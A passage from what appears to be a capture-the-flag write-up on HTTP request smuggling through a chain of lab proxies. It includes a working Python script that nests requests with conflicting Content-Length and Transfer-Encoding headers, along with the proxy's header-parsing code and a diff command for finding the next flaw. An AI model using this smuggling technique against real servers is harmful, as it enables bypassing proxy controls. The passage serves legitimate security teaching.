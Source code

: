 ```python
def passChannel(innerRequest):
    chunk = "0\r\n\r\n"
    request = f"POST /maelstrom HTTP/1.1\r\n"
    request += "Host: channel.us:8080\r\n"
    request += f"Content-Length: {len(innerRequest) + len(chunk)}\r\n"
    request += "Transfer-Encoding: chunked\r\n"
    request += "Connection: keep-alive\r\n"
    request += f"\r\n{chunk}{innerRequest}"

    return request

def passMaelstrom(innerRequest):
    innerRequest = "0\r\n\r\n" + innerRequest
    transferEncoding =  f"{len(innerRequest):x}\r\n"
    request = f"POST /maw HTTP/1.1\r\n"
    request += "Host: maelstrom.us:8080\r\n"
    request += "Transfer-Encoding: chunked\r\n"
    request += f"Content-Length: {len(transferEncoding)}\r\n"
    request += "Connection: keep-alive\r\n"
    request += "\r\n" +  transferEncoding + innerRequest + "\r\n" + "0\r\n\r\n"

    return passChannel(request)

with open("request.http", "rb") as r:
    with open("newrequest.http", "w") as w:
        w.write(passMaelstrom(r.read().decode('utf-8')))
```

Unfortunately, we don't know yet where the vulnerability in `maw.us` is. If we check the location where the other proxies were vulnerable in `maw.py`, both headers are now handled correctly and are not incorrectly appended to the headers list. Instead, multiple headers will cause the proxy to continuously process and replace the body, and only the final received body will be sent to the proxy (a proper proxy should throw an error, but handling it this way does not afford us anything to exploit).

```python
if header == "Connection":
    pass
elif header == "Content-Length":
    pass
elif header == "Transfer-Encoding":
    pass
else:
    # Unknown header - just slap it on there I guess
    logging.info(f"Extra header appended: {line}")
    headers.append(line)
```

One technique we can use to try and find the vulnerability is to perform a `diff` of the proxies. In this case, we will limit it to just the first few lines using the `head` command.

```bash
diff kessel/kessel.py maw/maw.py | head
```
